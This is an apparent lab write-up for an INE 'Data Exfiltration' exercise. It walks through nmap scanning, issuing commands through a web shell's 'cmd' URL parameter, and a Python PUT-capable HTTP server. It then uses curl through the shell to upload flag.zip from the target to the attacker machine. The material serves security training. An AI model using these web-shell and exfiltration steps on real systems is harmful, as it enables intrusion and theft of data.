 # 🔬Data Exfiltration

The Kali OS GUI instance is web hosted on the INE website, where:

* You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a _low privilege user_ (i.e. student). A sensitive flag file is kept in a zipped archive file in the _student user's home directory_.
* There is a monitor process running on the server machine that blocks most protocols _except HTTP protocol_ (when using port **80**).
* The API endpoint is accessible at `demo.ine.local` domain.

_Objective_: Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

_**Tools**_ used:

* **`nmap`**, **`curl`**
* A web browser
* Python Scripting

## SOLUTION

*   Check Kali instance IP address and ping the vulnerable server.


```bash
ip -br -c a
ping demo.ine.local
```

```shell
root@INE:~# ip -br -c a
eth1@if126466    UP             192.70.33.2/24 
lo               UNKNOWN        127.0.0.1/8 
ip_vti0@NONE     DOWN           
eth0@if126463    UP             10.1.0.17/16

root@INE:~# ping demo.ine.local
PING demo.ine.local (192.70.33.3) 56(84) bytes of data.
64 bytes from demo.ine.local (192.70.33.3): icmp_seq=1 ttl=64 time=0.159 ms
```

* The web server IP is `192.70.33.3`

### nmap

*   Perform an `nmap` scan to check open ports on the server:

    *   _Simple scan_:

```bash
sudo nmap demo.ine.local
```

```bash
root@INE:~# sudo nmap demo.ine.local
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 15:34 IST
Nmap scan report for demo.ine.local (192.70.33.3)
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
8000/tcp open  http-alt
MAC Address: 02:42:C0:46:21:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
```

*   _Advanced scan_:

```bash
sudo nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
```

**`-sC`** - for default scripts
**`-sV`** - probe open ports to determine service/versions info
**`-oA`** - output all 3 major formats in a directory

```shell
root@INE:~# less nmap/dataexfiltration.nmap

# Nmap 7.92 scan initiated Thu May  5 14:31:09 2022 as: nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
Nmap scan report for demo.ine.local (192.70.33.3)
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8000/tcp open  http    Werkzeug httpd 0.15.2 (Python 2.7.16)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:42:C0:46:21:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  5 14:31:15 2022 -- 1 IP address (1 host up) scanned in 6.91 seconds
```

- A Python2 web server (Werkzeug) is running on open port **8000**.
- Check the response from a browser by visiting `http://demo.ine.local:8000/`

![](.gitbook/assets/image-20220505111539250.png)

### Web shell commands

* Pass a parameter named `cmd` with the URL, using `?cmd=VALUE` in the URL:
  * **`http://demo.ine.local:8000/?cmd=pwd`**

![](.gitbook/assets/image-20220505120650948.png)

* **`http://demo.ine.local:8000/?cmd=ls+-l`** - check contents of pwd:

![](.gitbook/assets/image-20220505120905753.png)

* _flag.zip_ file must be transferred to the Kali instance.
* Check if `curl` command is present on the server
  * **`http://demo.ine.local:8000/?cmd=curl+-h`** - curl is present:

![](.gitbook/assets/image-20220505121232523.png)

* `curl` can be used to exfiltrate the flag.zip file by sending it over HTTP protocol to a local HTTP server on the Kali instance, using the **`-T`** option:

> \-T, --upload-file This transfers the specified local file to the remote URL. If there is no file part in the specified URL, curl will append the local file name. NOTE that you must use a trailing / on the last directory to really prove to Curl that there is no file name or curl will think that your last directory name is the remote file name to use. That will most likely cause the upload oper‐ ation to fail. If this is used on an HTTP(S) server, the PUT command will be used.

### Python HTTP server

* Run a HTTP server on the local machine using python:

```bash
python -m SimpleHTTPServer 80
```


  * The Kali instance IP is `192.70.33.2`
  * `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  * _Error response - Unsupported method ('PUT')_

![](.gitbook/assets/image-20220505125425734.png)

* (Same error with **`python3 -m http.server 80`**)
*   Create a Python script to run an _HTTP server supporting PUT_.

```shell
root@INE:~# which python
/usr/bin/python

root@INE:~# nano httpserver.py
```

- Add the following code to the htttserver.py script:

```python
#!/usr/bin/python
import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

> _Thanks to_ [_BigBlueHat_](https://gist.github.com/BigBlueHat/0ca3894f715aac2f2e40af3a8aa0a436) _for the script._

* Run the SimpleHTTP server using the script:

```bash
python httpserver.py 80
```

* Try again the PUT request `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  * Archive `flag.zip` was received by the server.

![](.gitbook/assets/image-20220505130449931.png)

* Stop the running HTTP server and check the folder for the downloaded file.

```bash
ls -l
```

![](.gitbook/assets/image-20220505131132654.png)

* Unzip the archive and retrieve the flag:

```bash
unzip flag.zip
cat flag/flag.txt
```

![](.gitbook/assets/image-20220505131635395.png)

> 📍 Lab solved!
>
> 📌 Check [An Introduction to Web Shells - by Acunetix](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)
